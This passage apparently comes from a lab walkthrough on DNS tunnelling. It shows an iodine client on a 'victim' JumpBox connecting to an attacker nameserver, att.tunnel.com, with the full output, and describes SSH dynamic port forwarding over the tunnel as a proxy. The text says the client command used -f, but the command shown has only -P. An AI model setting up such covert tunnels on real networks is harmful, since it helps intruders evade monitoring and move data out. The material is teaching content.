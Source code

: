 Let's explain the previous command a bit more:

* Ensure to execute the command with sudo. The iodined creates a new network interface (dns0) for the tunneling over the DNS.
* The -f argument is to run the server in the foreground.
* The -c argument is to skip checking the client IP address and port for each DNS request.
* The -P argument is to set a password for authentication.
* &#x20;The 10.1.1.1/24 argument is to set the network IP for the new network interface (dns0). The IP address of the server will be 10.1.1.1 and the client 10.1.1.2.
* att.tunnel.com is the nameserver we previously set.

On the JumpBox machine, we need to connect to the server-side application. To do so, we need to execute the following:

Victim Connects to the Server

```markup
thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com                                                                                                           
Opened dns0                                                                                                                                                     
Opened IPv4 UDP socket                                                                                                                                          
Sending DNS queries for att.tunnel.com to 127.0.0.11                                                                                                            
Autodetecting DNS query type (use -T to override).                                                                                                              
Using DNS type NULL queries                                                                                                                                     
Version ok, both using protocol v 0x00000502. You are user #0                                                                                                   
Setting IP of dns0 to 10.1.1.2                                                                                                                                  
Setting MTU of dns0 to 1130                                                                                                                                     
Server tunnel IP is 10.1.1.1                                                                                                                                    
Testing raw UDP data to the server (skip with -r)                                                                                                               
Server is at 172.20.0.200, trying raw login: OK                                                                                                                 
Sending raw traffic directly to 172.20.0.200                                                                                                                    
Connection setup complete, transmitting data.
```

Note that we executed the client-side tool (iodine) and provided the -f and -P arguments explained before. Once the connection is established, we open a new terminal and log in to 10.1.1.1 via SSH.

Note that all communication over the network 10.1.1.1/24 will be over the DNS. We will be using the -D argument for the dynamic port forwarding feature to use the SSH session as a proxy. Note that we used the -f argument to enforce ssh to go to the background. The -4 argument forces the ssh client to bind on IPv4 only.&#x20;

SSHoverDNS
